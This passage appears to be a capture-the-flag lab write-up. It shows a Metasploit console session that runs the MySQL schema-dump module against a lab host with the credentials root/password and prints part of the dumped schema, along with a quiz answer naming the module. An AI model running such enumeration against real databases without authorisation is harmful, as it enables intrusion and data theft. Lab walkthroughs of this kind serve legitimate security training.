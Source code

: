 ```
┌──(kali㉿kali)-[~/Downloads]
└─$ msfconsole -q
msf6 > search mysql_schemadump

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_schemadump                   normal  No     MYSQL Schema Dump


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_schemadump                                                    

msf6 > use 0
msf6 auxiliary(scanner/mysql/mysql_schemadump) > options

Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified use
                                               rname
   RHOSTS                            yes       The target host(s), see https://gi
                                               thub.com/rapid7/metasploit-framewo
                                               rk/wiki/Using-Metasploit
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (
                                               max one per host)
   USERNAME                          no        The username to authenticate as

```

First, let's search for and select the "mysql_schemadump" module. What's the module's full name? *auxiliary/scanner/mysql/mysql_schemadump*

```
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS 10.10.106.201
RHOSTS => 10.10.106.201
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_schemadump) > run

[+] 10.10.106.201:3306    - Schema stored in: /home/kali/.msf4/loot/20220819200040_default_10.10.106.201_mysql_schema_117039.txt
[+] 10.10.106.201:3306    - MySQL Server Schema 
 Host: 10.10.106.201 
 Port: 3306 
 ====================

---
- DBName: sys
  Tables:
  - TableName: host_summary
    Columns:
    - ColumnName: host
      ColumnType: varchar(60)
    - ColumnName: statements
      ColumnType: decimal(64,0)
    - ColumnName: statement_latency
```